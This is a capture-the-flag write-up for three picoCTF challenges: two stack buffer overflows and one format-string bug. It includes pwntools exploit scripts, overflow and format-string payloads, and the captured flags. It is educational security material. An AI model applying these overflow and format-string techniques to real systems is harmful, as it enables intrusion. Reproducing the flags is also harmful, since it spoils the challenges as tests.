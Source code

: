 

# 1. buffer overflow 0

> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Additional details will be available after launching your challenge instance.

## Solution:

- Reviewed the C source code (vuln.c), noticed a function, sigsegv_handler, that prints the flag if the program crashes, found a bug in the vuln function: strcpy copies input into buf2, a buffer of only 16 bytes, the main function uses gets, which allows an input much longer than 16 bytes, so I sent a long string  to overflow buf2.
- This overflow caused a program crash, the sigsegv_handler will then run and print the flag.
- Used a Python script with the pwntools library to send this long string.
- Code:-
```
from pwn import *
import time

HOST = 'saturn.picoctf.net'
PORT = 60890

payload = b'A' * 40

try:
    p = remote(HOST, PORT)
    print(f"Connecting to {HOST}:{PORT}...")
except Exception as e:
    print(f"Failed to connect: {e}")
    print("Please make sure pwntools is installed: pip install pwntools")
    exit()
    
prompt = p.recvuntil(b'Input: ')
print(prompt.decode(), end='')

print(f"Sending payload: {payload.decode()}")
p.sendline(payload)

print("\nServer response:")
try:
    response = p.recvall()
    print(response.decode().strip())
except EOFError:
    print("[Connection closed cleanly (or EOF)]")
except Exception as e:
    print(f"An error occurred: {e}")

print("\nConnection closed.")
```
## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Concepts learnt:

- Basic stack-based buffer overflow.

- Analyzing C source code for vulnerabilities like strcpy and gets.


## Resources:

- [Binary Exploitation](./https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)

***


# 2. format string 0
> Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here.Additional details will be available after launching your challenge instance.

## Solution:

- analyzed the format-string-0.c source code, found a sigsegv_handler function that prints the flag if the program crashes, the program has a format string vulnerability, calling printf() directly with user input.
- to pass serve_patrick, we must print > 64 chars. We send Gr%114d_Cheese, as %114d prints a 114-character string.
- to get the flag, we must crash serve_bob. We send Cla%sic_Che%s%steak, as %s tries to read from an invalid address, causing a crash.
- this crash triggers the sigsegv_handler and prints the flag.

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}

```

## Concepts learnt:

- Format String Vulnerabilities (using %s, %d, etc.)


## Resources:

- [Format String Attacks](./https://owasp.org/www-community/attacks/Format_string_attack)

***


# 3. clutter-overflow
> Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890
## Solution:

- Looked at the chall.c source code, the goal is to make the code variable equal 0xdeadbeef to get the flag, found that code is a variable on the stack, right after a 256-byte buffer called clutter, the program uses gets, which is a well-known buffer overflow bug because it doesn't check your input size, this means we can send more than 256 bytes to "overflow" the clutter buffer and overwrite the code variable.
- after some testing, found out there were 8 bytes of extra padding between the buffer and the code variable.So, the final payload needs 264 bytes of junk to fill the buffer and the padding, followed by the 8-byte value of 0xdeadbeef.
- Used pwntools to build and send this payload. The server then runs cat flag.txt and gives us the flag.
- Code:-
```
from pwn import *
import time

HOST = 'mars.picoctf.net'
PORT = 31890

payload = b'A' * 264

payload += p64(0xdeadbeef)

print(f"Payload: {payload}")

try:
    p = remote(HOST, PORT)
    
    p.recvuntil(b"What do you see?\n")
    
    print("Sending payload...")
    p.sendline(payload)
    
    print("\nServer response:")
    response = p.recvall()
    print(response.decode().strip())

except Exception as e:
    print(f"An error occurred: {e}")

```
## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- using stack-based buffer overflow.
- using pwntools to send exploit payloads.


## Resources:

- [Pwn Documentation](./https://github.com/JohnHammond/ctf-katana?tab=readme-ov-file#forensics)
***
